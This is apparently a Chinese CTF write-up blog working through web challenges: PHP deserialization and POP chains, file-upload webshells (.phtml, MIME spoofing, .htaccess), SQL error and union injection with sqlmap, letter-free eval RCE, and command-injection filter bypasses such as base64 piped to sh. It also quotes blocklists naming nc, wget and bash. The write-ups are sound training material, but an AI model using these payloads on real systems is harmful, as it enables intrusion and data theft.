






# 2023/9/7
# [SWPUCTF 2021 新生赛] ez_unserialize
# php，反序列化，文件泄露
打开后是一张胡桃动图。
打开源码后发现一句注释：
<!-- | |
User-agent: * | |
Disallow: 什么东西呢？ | |
--> |
很熟悉的配方，于是查看 robots.txt 文件：
User-agent: * | |
Disallow: /cl45s.php |
查看 cl45s.php 文件：
<?php | |
error_reporting(0); | |
show_source("cl45s.php"); | |
class wllm{ | |
public $admin; | |
public $passwd; | |
public function __construct(){ | |
$this->admin ="user"; | |
$this->passwd = "123456"; | |
} | |
public function __destruct(){ | |
if($this->admin === "admin" && $this->passwd === "ctf"){ | |
include("flag.php"); | |
echo $flag; | |
}else{ | |
echo $this->admin; | |
echo $this->passwd; | |
echo "Just a bit more!"; | |
} | |
} | |
} | |
$p = $_GET['p']; | |
unserialize($p); | |
?> |
审计代码，发现函数在销毁时，如果 admin 等于 "admin"，password 等于 "ctf"，那么就可以输出 flag，于是构建参数：
<?php | |
class wllm{ | |
public $admin; | |
public $passwd; | |
public function __construct(){ | |
$this->admin ="user"; | |
$this->passwd = "123456"; | |
} | |
public function __destruct(){ | |
if($this->admin === "admin" && $this->passwd === "ctf"){ | |
echo $flag; | |
}else{ | |
echo $this->admin; | |
echo $this->passwd; | |
echo "Just a bit more!"; | |
} | |
} | |
} | |
$p = new wllm(); | |
$p->admin = "admin"; | |
$p->passwd = "ctf"; | |
print(serialize($p)); |
输入：
?p=O:4:"wllm":2:
得到 flag。
# [SWPUCTF 2021 新生赛] easyupload2.0
# 远程执行，php 的多种格式
打开题目后发现要上传文件，于是上传一句话木马，发现不能上传，于是换了个格式 ——".phtml"，上传成功，使用蚁剑连接。
获得 flag。
复盘
分析下源码
//index.php | |
<?php | |
session_start(); | |
echo " | |
<meta charset=\"utf-8\"> | |
<title>下手轻点，求求了</title> | |
<a><img src=\"https://gitee.com/a-sprite-of-84/docker-upload1/raw/master/images/upload1.jpg\" alt=\"upload1.jpg\" border=\"0\" /></a> | |
<form action=\"upload.php\" method=\"post\" enctype=\"multipart/form-data\"> | |
<input type=\"file\" name=\"uploaded\" /> | |
<br/> | |
<input type=\"submit\" name=\"submit\" value=\"感觉要被秒了\" /> | |
</form>"; | |
if(!isset($_SESSION['user'])){ | |
$_SESSION['user'] = md5((string)time() . (string)rand(100, 1000)); | |
} | |
?> |
//upload.php | |
<?php | |
session_start(); | |
echo " | |
<meta charset=\"utf-8\">"; | |
if(!isset($_SESSION['user'])){ | |
$_SESSION['user'] = md5((string)time() . (string)rand(100, 1000)); | |
} | |
if(isset($_FILES['uploaded'])) | |
{ | |
$target_path = "./upload"; | |
$t_path = $target_path . "/" . basename($_FILES['uploaded']['name']); | |
$uploaded_name = $_FILES['uploaded']['name']; | |
$uploaded_ext = substr($uploaded_name, strrpos($uploaded_name,'.') + 1); | |
$uploaded_size = $_FILES['uploaded']['size']; | |
$uploaded_tmp = $_FILES['uploaded']['tmp_name']; | |
if(preg_match("/php|hta|ini/i", $uploaded_ext)) | |
{ | |
die("php是不行滴"); | |
} | |
else | |
{ | |
$content = file_get_contents($uploaded_tmp); | |
move_uploaded_file($uploaded_tmp, $t_path); | |
echo "{$t_path} succesfully uploaded!"; | |
} | |
} | |
else | |
{ | |
die("不传🐎还想要f1ag?"); | |
} | |
?> |
发现用正则表达式过滤了.php/.hta/.ini，因而除了 php 以外的 php 文件都可以上传；
另
php3，php5，pht，phtml，phps 都是 php 可运行的文件扩展名
# [SWPUCTF 2021 新生赛] easyupload1.0
# mime 绕过，文件上传，php，文件头绕过
打开后是一个要求上传图片的界面，直接上传一句话木马，发现.php 文件被过滤了。
于是经过一番尝试后发现是 mine 检测。
MIME: 客户端软件，区分不同种类的数据，例如 web 浏览器就是通过 MIME 类型来判断文件是 GIF 图片还是 PostScript 文件。web 浏览器使用 MIME 来说明发送数据的种类，web 服务端使用 MIME 来说明希望接收到的数据种类。
MIME 检测原理：服务端 MIME 类型检测是通过检查 http 包的 Content-Type 字段中的值来判断文件上传是否合法的。
本题服务端只接受图片类型，因此可以用 burpsuit 抓包来修改文件类型，将其修改为
Content-Type:image/jpeg
文件成功上传后，用蚁剑进行连接。
连接成功后查看其中的文件，并未找到 flag 文件，可以回到网页，用 post 向参数传入
phpinfo();
最终在环境变量中找到 flag，或者在蚁剑中打开终端（右键），输入 php -i 命令。
Content-Type 中常见的媒体格式类型：
以 text 开头的媒体格式类型：
- text/html： HTML 格式。
- text/plain：纯文本格式。
- text/xml： XML 格式。
以 image 开头的媒体格式类型：
- image/gif：gif 图片格式。
- image/jpeg：jpg 图片格式。
- image/png：png 图片格式。
以 application 开头的媒体格式类型：
- application/xhtml+xml：XHTML 格式。
- application/xml： XML 数据格式。
- application/atom+xml：Atom XML 聚合格式 。
- application/json： JSON 数据格式。
- application/pdf：pdf 格式 。
- application/msword： Word 文档格式。
- application/octet-stream： 二进制流数据（如常见的文件下载）。
- application/x-www-form-urlencoded： 中默认的 encType，form 表单数据被编码为 key/value 格式发送到服务器（表单默认的提交数据的格式）。
另外还有一种常见的媒体格式是上传文件之时使用的：
- multipart/form-data ： 需要在表单中进行文件上传时，就需要使用该格式。
以上就是我们在日常的开发中，经常会用到的若干 Content-Type 的内容格式。
# [SWPUCTF 2021 新生赛] no_wakeup
# php，反序列化，wakeup 函数绕过
打开后是一道熟悉的代码审计：
<?php | |
header("Content-type:text/html;charset=utf-8"); | |
error_reporting(0); | |
show_source("class.php"); | |
class HaHaHa{ | |
public $admin; | |
public $passwd; | |
public function __construct(){ | |
$this->admin ="user"; | |
$this->passwd = "123456"; | |
} | |
public function __wakeup(){ | |
$this->passwd = sha1($this->passwd); | |
} | |
public function __destruct(){ | |
if($this->admin === "admin" && $this->passwd === "wllm"){ | |
include("flag.php"); | |
echo $flag; | |
}else{ | |
echo $this->passwd; | |
echo "No wake up"; | |
} | |
} | |
} | |
$Letmeseesee = $_GET['p']; | |
unserialize($Letmeseesee); | |
?> |
与 ez_unserialize 类似，但多出来一个____wakeup () 函数，php 在执行 unserialize () 函数前，会执行这个函数
所以会将密码进行 sha1 加密，而 sha1 是不可逆加密算法，目前也没有合适的 sha1 碰撞方式，从函数上考虑绕过有些困难，故考虑绕过__wakeup () 函数。
绕过的方法也很简单，只需要将序列化字符串表示对象属性个数的值大于真实的属性个数时，由于与反序列化的规则不符，就会反序列化失败，因此不会执行__wakeup ()，但是__destruct () 仍然可以执行。
注：
或许你会疑惑：
明明无法完成反序列化，为什么还可以触发__destruct ()，为什么还能够对属性赋值？
你可以这样理解：
反序列化是一个正向检索的函数，虽然对于整体来说，数量不符，无法完成反序列化，但是可以尽可能检索能够完成反序列化的目标，所以这里数量改为了 3，会先依次反序列化 2 个单位，直到无法检索到第 3 个目标才判定反序列化失败。
所以当然可以触发__destruct (), 完成前面属性的赋值。
在 ez_unserialize 的 payload 稍做修改：
?p=O:6:"HaHaHa":3:
得到 flag。
# 2023/9/8
# [SWPUCTF 2021 新生赛] PseudoProtocols
# PHP 伪协议，文件包含
hint is hear Can you find out the hint.php?
进去后提示我们查看 hint.php，用 php 伪协议查看：
?wllm=php://filter/convert.base64-encode/resource=hint.php
解码：
<?php | |
//go to /test2222222222222.php | |
?> |
访问 /test2222222222222.php
<?php | |
ini_set("max_execution_time", "180"); | |
show_source(__FILE__); | |
include('flag.php'); | |
$a= $_GET["a"]; | |
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){ | |
echo "success\n"; | |
echo $flag; | |
} | |
?> |
用 data 协议写入即可。
# [NISACTF 2022]easyssrf
# php 伪协议，ssrf, 目录穿越
进去后有个让我们 curl 的框，随便输入一个百度官网，发现可以回显。
输入：
file:///etc/passwd
返回：
害羞羞，试试其他路径？
可以判断出 file 协议可以用但是读取不了这个文件。
尝试有没有 flag 文件：
file:///flag
返回：
都说了这里看不了 flag。。但是可以看看提示文件：/fl4g
输入：
file:///fl4g
返回：
你应该看看除了 index.php，是不是还有个 ha1x1ux1u.php
访问这个文件，代码如下：
<?php | |
highlight_file(__FILE__); | |
error_reporting(0); | |
$file = $_GET["file"]; | |
if (stristr($file, "file")){ | |
die("你败了."); | |
} | |
//flag in /flag | |
echo file_get_contents($file); |
过滤了 file 协议，不过提示 flag 在 /flag 中，直接
?file=/flag
得到 flag。
# [BJDCTF 2020]easy_md5
# 数组绕过，PHP 代码审计，弱比较，md5 绕过
打开后是个输入框，尝试进行 SQL 注入，注入了半天没啥用。
换个思路，抓个包看看响应包里面有没有什么有用的信息。
得到一串代码：
hint: select * from 'admin' where password=md5($pass,true)
这句话可以用下面这个绕过：
MD5-SQL 注入
ffifdyop 的 MD5 加密结果是 276f722736c95d99e921722cf9ed621c
经过 MySQL 编码后会变成 'or'6xxx, 使 SQL 恒成立，相当于万能密码，可以绕过 md5 () 函数的加密
该字符串 md5 加密后若 raw 参数为 True 时会返回 'or’6 (其实就是一些乱码和不可见字符，这里只要第一位是非零数字即可被判定为 True，后面的会在 MySQL 将其转换成整型比较时丢掉)
在 mysql 里面，在用作布尔型判断时，以非 0 数字开头的字符串会被当做整型数。
相当于 password=‘xxx’ or 1
进入下一阶段：
<!-- | |
$a = $GET['a']; | |
$b = $_GET['b']; | |
if($a != $b && md5($a) == md5($b)){ | |
header('Location: levell14.php'); | |
--> |
这里有两种思路，一种就是 0e 绕过，另一种就是数组绕过。
常用的 MD5 加密后以 0E 开头的有
QNKCDZO
240610708
byGcY
sonZ7y
aabg7XSs
aabC9RqS
s878926199a
s155964671a
s214587387a
s1091221200a
数组绕过
md5 不能加密数组，传入数组会报错，但会继续执行并且返回结果为 null
这里我们用数组绕过：
?a[]=1&b[]=2
进入最后阶段：
<?php | |
error_reporting(0); | |
include "flag.php"; | |
highlight_file(__FILE__); | |
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){ | |
echo $flag; | |
} |
这里是 md5 的强类型比较，0e 绕过就失去了效果，但数组绕过依然有效，
param1[]=1¶m2[]=2
或者可以尝试 md5 碰撞，这里就不尝试了。
# 2023/9/10
# [SWPUCTF 2021 新生赛] easyupload3.0
# .htaccess, 文件上传
打开题目后，有个传文件的框 ，查看网页源代码，可以看到有串提示：
试试和某些文件配合哦～
.htaccess 文件
htaccess 在站点的根目录下面，不是在 apache 目录下，但是它属于 apache 的一个配置文件
taccess 文件时 Apache 服务中的一个配置文件，它负责相关目录下的网页配置。通过 htaccess 文件，可以帮助我们实现：网页 301 重定向、自定义 404 错误页面，改变文件扩展名、允许 / 阻止特定的用户或者目录的访问，禁止目录列表，配置默认文档等功能
其中.htaccess 文件内容：SetHandler application/x-http-php 的意思是设置当前目录所有文件都使用 php 解析，那么无论上传任何文件，只要符合 php 语言代码规范，就会被当做 PHP 执行。不符合规则则报错
http.conf 文件 (前提条件)
在此文件中设置 AllowOverried All ，才能使用.htaccess 文件
值得一提的是.htaccess 只对该文件所在的目录下的文件起作用。
这题目看到使用的是 apach 服务器，自然想到了.htaccess 文件，因此尝试上传
AddType application/x-httpd-php .php .jpg .png .gif
SetHandler application/x-httpd-php
成功上传后，再上传图片后缀的一句话木马，最后与蚁剑连接即可获得 flag。
# [SWPUCTF 2021 新生赛] error
# 报错注入，SQL 注入
很基础的报错注入，需要稍微注意的是最后得用字符串截取函数显现完整的 flag。
爆出数据库名字 -1'and (select extractvalue (1,concat ('~',(select database ()))))# 报错注入
爆出所有数据库名 -1'and (select extractvalue (1,concat ('~',(select group_concat (schema_name) from information_schema.schemata))))#
爆出数据库 test_db 下所有的表 -1'and (select extractvalue (1,concat ('~',(select group_concat (table_name) from information_schema.tables where table_schema='test_db'))))#
爆出 test_db 数据库下 test_tb 表所有的列名 -1'and (select extractvalue (1,concat ('~',(select group_concat (column_name) from information_schema.columns where table_name="test_tb" and table_schema='test_db'))))#
查询 flag -1'and (select extractvalue (1,concat ('~',(select substr ((select flag from test_tb), 1 , 31)))))# 0-30 位 左边 30 位 -1'and (select extractvalue (1,concat ('~',(select substr ((select flag from test_tb), 31 , 60)))))# 31-60 位 右边边 31 位
或者还可以用 sqlmap 去做：
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 --dbs // 得到库名
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db --tables // 得到表名
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db -T test_tb --columns // 得到列名
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db -T test_tb -C flag --dump // 输出 FLAG
# [SWPUCTF 2021 新生赛] hardrce
# waf 绕过，无字母 rce
做此题前可以先看看一下文档
php 代码执行的各种绕过姿势
进入题目：
<?php | |
header("Content-Type:text/html;charset=utf-8"); | |
error_reporting(0); | |
highlight_file(__FILE__); | |
if(isset($_GET['wllm'])) | |
{ | |
$wllm = $_GET['wllm']; | |
$blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',]; | |
foreach ($blacklist as $blackitem) | |
{ | |
if (preg_match('/' . $blackitem . '/m', $wllm)) { | |
die("LTLT说不能用这些奇奇怪怪的符号哦！"); | |
}} | |
if(preg_match('/[a-zA-Z]/is',$wllm)) | |
{ | |
die("Ra's Al Ghul说不能用字母哦！"); | |
} | |
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？"; | |
eval($wllm); | |
} | |
else | |
{ | |
echo "蔡总说：注意审题！！！"; | |
} | |
?> |
过滤了很多字符，常规的无字母 RCE 主要有三种方式：
- 异或
- 自增
- 取反
异或、自增全 g 了，使用取反。
取反脚本：
<?php | |
$a = ""; | |
$b = ""; | |
echo urlencode(~$a); | |
echo "\n"; | |
echo urlencode(~$b); |
先使用 system("ls /") ；命令查看
有哪些文件
<?php | |
$a = "system"; | |
$b = "ls /"; | |
echo urlencode(~$a); | |
echo "\n"; | |
echo urlencode(~$b); |
得到
%8C%86%8C%8B%9A%92
%93%8C%DF%D0
于是构造 payload:
?wllm=(%8C%86%8C%8B%9A%92)(%93%8C%DF%D0);
可知有个 /flllllaaaaaaggggggg 文件，
再次使用脚本：
<?php | |
$a = "system"; | |
$b = "cat /fl*"; | |
echo urlencode(~$a); | |
echo "\n"; | |
echo urlencode(~$b); |
得到
%8C%86%8C%8B%9A%92
%DF%9C%9E%8B%DF%D0%99%93%D5
构造 payload:
?wllm=(%8C%86%8C%8B%9A%92)(%DF%9C%9E%8B%DF%D0%99%93%D5)
最终得到 flag。
# 2023/9/12
# [SWPUCTF 2021 新生赛] pop
# pop 链，反序列化，php, 代码审计
进入题目，是一个人 php 代码审计：
<?php | |
error_reporting(0); | |
show_source("index.php"); | |
class w44m{ | |
private $admin = 'aaa'; | |
protected $passwd = '123456'; | |
public function Getflag(){ | |
if($this->admin === 'w44m' && $this->passwd ==='08067'){ | |
include('flag.php'); | |
echo $flag; | |
}else{ | |
echo $this->admin; | |
echo $this->passwd; | |
echo 'nono'; | |
} | |
} | |
} | |
class w22m{ | |
public $w00m; | |
public function __destruct(){ | |
echo $this->w00m; | |
} | |
} | |
class w33m{ | |
public $w00m; | |
public $w22m; | |
public function __toString(){ | |
$this->w00m->{$this->w22m}(); | |
return 0; | |
} | |
} | |
$w00m = $_GET['w00m']; | |
unserialize($w00m); | |
?> |
审计代码后，得知反序列化参数为 "w00m"，
查找入口
# 传参 $w00m, 直接反序列化，入口就在__destruct，或者_wakeup，这里的 w22m 符合条件 | |
class w22m{ | |
public $w00m; | |
public function __destruct(){ | |
echo $this->w00m; | |
} | |
} |
找链子
# echo一个对象，调用__toString方法，然后调用内部w00m的方法，由此可得链子如下 | |
# w22m.__destruct().w00m->w33m.__toString().w00m->w44m.Getflag() |
写 exp
<?php | |
class w44m | |
{ | |
private $admin = 'w44m'; | |
protected $passwd = '08067'; | |
} | |
class w22m{ | |
public $w00m; | |
} | |
class w33m{ | |
public $w00m; | |
public $w22m; | |
} | |
$a = new w22m(); | |
$b = new w44m(); | |
$c = new w33m(); | |
$a -> w00m = $c; | |
$c -> w00m = $b; | |
$c -> w22m = 'Getflag'; | |
echo (serialize($a)); | |
echo urlencode(serialize($a)); |
这里如果不想要在脚本中 url 编码，由于不可见字符的影响，在网站修改数据时注意把私有、保护型的变量中的值 %20 改为 %00。
# [SWPUCTF 2021 新生赛] sql
# 空格绕过，等号绕过，SQL 注入
进入后发现它求我们输点东西，发现网页标题似乎有参数，打开控制台看到参数是 wllm。
尝试
?wllm=1
回显出
Your Login name:xxx
Your Password:yyy
再尝试
?wllm=1'%23
发现并没有报错，说明是单引号闭合。
看看有几列：
?wllm=1' order by 4%23
回显出 "请勿非法操作"，说明有东西被过滤了，经过测试发现是空格被过滤了，直接用 hackbar 自带的绕过空格尝试绕过：
?wllm=1'/**/order/**/by/**/4%23
得到回显：
Unknown column '4' in 'order clause'
再尝试 3 列，发现成功。
测试回显在哪两列显示：
?wllm=0'/**/union/**/select/**/1,2,3%23
回显：
Your Login name:2
Your Password:3
查看所有表：
?wllm=0'union/**/select/**/1,2,group_concat(schema_name)/**/from/**/information_schema.schemata%23
回显：
Your Login name:2
Your Password:information_schema,m
发现没显示全，用函数截取以下发现 substr,right,left 全部都被过滤了，只有 mid 能用。
这里就不截取了。
查表：
?wllm=0'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()
发现又有东西被过滤了，经过测试发现是 "=" 号，用 like 代替。
?wllm=0'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()%23
得知一个表：LTLT_flag，不出意外 flag 应该就在里面。
查询库中所有的字段：
?wllm=0'union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/like/**/database()%23
知道了一个叫 flag 的字段。
直接查询，再配合 mid 即可。
?wllm=0'/**/union/**/select/**/1,2,flag/**/from/**/LTLT_flag
?wllm=0'/**/union/**/select/**/1,2,mid(flag,start,end)/**/from/**/LTLT_flag
# 2023/9/13
# [GXYCTF 2019]Ping Ping Ping
# 正则绕过，rce，php
打开题目后，是一个输入框，上面写着
听说 php 可以执行系统函数？我来康康
根据提示应该会使用 linux 命令，题目叫 ping ping ping ,
输入下本地 ip 127.0.0.1 看看能不能 ping 通。
结果显示：
联想到之前他说的可以执行系统命令，想起了 linux 中的连接符号。
具体可以参考这篇文章：Linux 中的管道与连接符号
这里使用；，因为 & 被过滤了，当然也可以用 |
先列出目录：
;ls
回显：
flag.php | |
index.php |
尝试 cat，发现空格和 flag 都被过滤了。
空格我们可以用 (0-9) 绕过，flag 绕过的方法有很多种。
对于 $IFS 为什么可以代替空格，可以参考这篇文章：
[shell 命令之 IFS 详解]
flag 的绕过方法目前我想出的三种：
三种绕过方式：
1.sh
/?ip=127.0.0.1;echo$IFS$2Y2F0IGZsYWcucGhw|base64$IFS$2-d|sh |
2. 变量拼接
/?ip=127.0.0.1;a=g;cat$IFS$2fla$a.php |
3. 内联注释 (将反引号命令的结果作为输入来执行命令)
/?ip=127.0.0.1;cat$IFS$2`ls` |
最后附上此题目源码：
<?php | |
if(isset($_GET['ip'])){ | |
$ip = $_GET['ip']; | |
if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){ | |
print_r($match); | |
print($ip); | |
echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match); | |
die("fxck your symbol!"); | |
} | |
else if(preg_match("/ /", $ip)){ | |
die("fxck your space!"); | |
} | |
else if(preg_match("/bash/", $ip)){ | |
die("fxck your bash!"); | |
} | |
else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){ | |
die("fxck your flag!"); | |
} | |
$a = shell_exec("ping -c 4 ".$ip); | |
echo "<pre>"; | |
print_r($a); | |
} | |
?> |
# [鹤城杯 2021] EasyP
# PHP，正则匹配，文件包含
做之前我想说：这题还挺骚。
进去后，题目给出：
<?php | |
include 'utils.php'; | |
if (isset($_POST['guess'])) { | |
$guess = (string) $_POST['guess']; | |
if ($guess === $secret) { | |
$message = 'Congratulations! The flag is: ' . $flag; | |
} else { | |
$message = 'Wrong. Try Again'; | |
} | |
} | |
if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) { | |
exit("hacker :)"); | |
} | |
if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){ | |
exit("hacker :)"); | |
} | |
if (isset($_GET['show_source'])) { | |
highlight_file(basename($_SERVER['PHP_SELF'])); | |
exit(); | |
}else{ | |
show_source(__FILE__); | |
} | |
?> |
首先第一句
if ($guess === $secret) { | |
$message = 'Congratulations! The flag is: ' . $flag; |
可以说是完全没用，单纯只是来误导人的，压根不可能找到 secret 变量的。
然后再看剩下的三层代码
if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) { | |
exit("hacker :)"); | |
} |
关于 $_SERVER 请求可以看这篇文章：
PHP $_SERVER 详解
这句代码就是说文件目录不能以 /utils.php/ 结尾，* 的意思是匹配前面的出现的字符零次或多次，别把它和 linux 中的 * 搞混了。
所以绕过方式如此简单，先接着往下看再决定在后面加什么吧。
if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){ | |
exit("hacker :)"); |
这句话中的 REQUEST_URI 和上面那个 PHP_SELF 区别就是多了参数，这个绕过的方法在前几天的 SICTF 做到过，那题目比这个过滤的稍微严格一点，把 url 编码 ban 了。
没错，这个 url 编个码就能绕过了，原因就是 server 不会像 get 和 post 一样去 url 解码一次发来的参数，因此可以绕过。
还有一种就是把 '_' 替换成 '.',' ','+' ,'[' 等，这样 php 存储时会自动把它们解析成字符串。
最后一层：
if (isset($_GET['show_source'])) { | |
highlight_file(basename($_SERVER['PHP_SELF'])); | |
exit(); |
这个绕过方法就是利用 basename 的一个特性：如果传入的参数中出现了非 ascii 字符则会把它给丢弃。
这样我们就知道在 /utils.php/ 加什么了，加个汉字或者类似 % ff 这样不存在的字符就可以了，如此一来就能查看 utils.php 里有啥了。
payload:
/index.php/utils.php/ 喵？show+source=1
为什么前面需要添加一个 /index.php 呢？
- 因为当我们传入
index.php/utils.php时，仍然请求的是index.php， - 但是当
basename()处理后，highlight_file()得到的参数就变成了utils.php，从而我们就实现了任意文件包含。
说白了我们压根就没在 utils.php 中操作。
得到 flag 中的 flag、secret 变量，对此我的评价是：6。
# [SWPUCTF 2021 新生赛] finalrce
# 无回显 rce，waf 绕过，php
进入题目看到源码：
<?php | |
highlight_file(__FILE__); | |
if(isset($_GET['url'])) | |
{ | |
$url=$_GET['url']; | |
if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url)) | |
{ | |
echo "Sorry,you can't use this."; | |
} | |
else | |
{ | |
echo "Can you see anything?"; | |
exec($url); | |
} | |
} |
看到 exec 函数就可以知道这道题是一个无回显 rce。（exec 函数可以用来执行命令但没有回显）
关于无回显 rce 可以参考这篇文章：
命令执行无回显利用
首先我们得判断命令是否能够执行，可以使用命令：
?url=l\s|sleep(5) |
发现页面加载了 5 秒中，说明是可以执行命令的。
再看看过滤了哪些东西，很明显 bash 反弹，wget 外带等方法用不了了，
不过我们可以使用 tee 命令配合管道符读取标准输入的数据，并将其内容输出成文件。
?url=l\s /| tee 1.txt |
这里除了反斜杠也可以用引号，形成拼接绕过。
执行后访问 1.txt 得到：
a_here_is_a_f1ag | |
bin | |
boot | |
dev | |
etc | |
flllllaaaaaaggggggg | |
home | |
lib | |
lib64 | |
media | |
mnt | |
opt | |
proc | |
root | |
run | |
sbin | |
srv | |
sys | |
tmp | |
usr | |
var |
接着使用 tac 等命令代替 cat，或者用反斜杠绕过过滤即可。
?url=ca\t /flllll??????ggggggg| tee 2.txt |
# 2023/9/14
放松一下，做几道 js 分析题。
# [LitCTF 2023]1zjs
# js 分析，信息收集
进去玩会魔方，没啥东西，开源码看看有啥东西。
<script src="./dist/index.umd.js"></script> |
访问。
先 ctrl+f 搜搜有没有 flag，没搜到。
再搜搜 php 碰碰运气，得到下面信息：
PERFORMANCE OF THIS SOFTWARE.Your gift just take it : /f@k3f1ag.php |
接着访问 /f@k3f1ag.php
